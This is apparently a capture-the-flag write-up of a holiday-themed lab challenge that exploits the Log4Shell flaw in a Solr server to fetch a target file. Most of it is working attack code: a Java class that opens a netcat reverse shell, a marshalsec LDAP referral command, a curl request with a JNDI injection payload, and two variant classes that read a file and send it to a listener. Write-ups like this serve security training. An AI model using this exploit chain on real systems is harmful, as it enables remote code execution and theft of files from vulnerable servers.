 # Bonus Red Log4Jack
**Location: North Pole**
**Troll: Icky McGoop**

This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.
Multiple terminal session are created automatically, one running a web server serving from `/home/troll/web` on port 8080, another one running a netcat listener on port 4444.

The objective is to retrieve the file `/home/solr/kringle.txt` from a web service running solr on http://solrpower.kringlecastle.com:8983/.

First a Java class `Joergen` creating a reverse shell is created:
```java
public class Joergen {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.
This is placed in the web tree, so that the web server is able to hand out this class.
Next the [marshalsec](https://github.com/mbechler/marshalsec) installation residing in `/home/troll/marshalsec`  is started:
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
```
*WEBSERVERIP* has to be replaced with the terminal's IP address.
This application acts as an LDAP server and uses the Java class on the web server as remote code base.

Finally the Log4J vulnerability is triggered:
```
curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
```
*MARSHALSECIP* has to be replaced with the terminal's IP address.

This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file `kringle.txt` to be retrieved.
```
cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
```
So **patching** is the solution.

### Alternative 1: just reading the targeted file
```java
import java.io.*;
import java.nio.file.*;
public class Joergen {
  static {
    try {
      Process p=java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444");
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      OutputStream out=p.getOutputStream();
      out.write(data);
      out.close();
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

### Alternative 2: pure Java solution, hence platform independant
```java
import java.io.*;
import java.nio.file.*;
import java.net.Socket;
public class Joergen {
  static {
    try {
      Socket socket=new Socket("CLIENTIP",4444);
      PrintStream out = new PrintStream( socket.getOutputStream() );
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      out.write(data);
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

**Achievement: Log4J Red Bonus**
